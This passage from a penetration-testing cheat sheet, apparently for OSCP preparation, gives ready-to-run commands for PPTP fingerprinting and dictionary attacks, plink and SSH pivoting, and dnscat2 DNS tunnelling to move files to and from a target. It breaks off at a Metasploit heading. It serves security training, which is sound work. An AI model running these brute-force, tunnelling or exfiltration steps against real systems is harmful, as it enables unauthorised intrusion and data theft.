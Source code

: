 -   PPTP Hacking

    -   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:  
        nmap –Pn -sV -p 1723 TARGET(S)  
        PPTP Dictionary Attack  
        thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst

-   Port Forwarding/Redirection

-   PuTTY Link tunnel - SSH Tunneling

    -   Forward remote port to local address:  
        plink.exe -P 22 -l root -pw "1337" -R 445:$ip:445 $ip

-   SSH Pivoting

    -   SSH pivoting from one network to another:  
        ssh -D $ip:1010 -p 22 user@$ip

-   DNS Tunneling

    -   dnscat2 supports “download” and “upload” commands for getting
        files (data and programs) to and from the target machine.

    -   Attacking Machine Installation:  
        apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        cd dnscat2/server  
        bundle install

    -   Run dnscat2:  
        ruby ./dnscat2.rb  
        dnscat2> New session established: 1422  
        dnscat2> session -i 1422

    -   Target Machine:  
        https://downloads.skullsecurity.org/dnscat2/
        https://github.com/lukebaggett/dnscat2-powershell/  
        dnscat --host <dnscat server\_ip>

<span id="_ujpvtdpc9i67" class="anchor"><span id="_Toc480741824" class="anchor"></span></span>The Metasploit Framework
======================================================================================================================

-   See [*Metasploit Unleashed
    Course*](https://www.offensive-security.com/metasploit-unleashed/)
    in the Essentials

-   Search for exploits using Metasploit GitHub framework source code:  
    [*https://github.com/rapid7/metasploit-framework*](https://github.com/rapid7/metasploit-framework)  
    Translate them for use on OSCP LAB or EXAM.

-   Metasploit
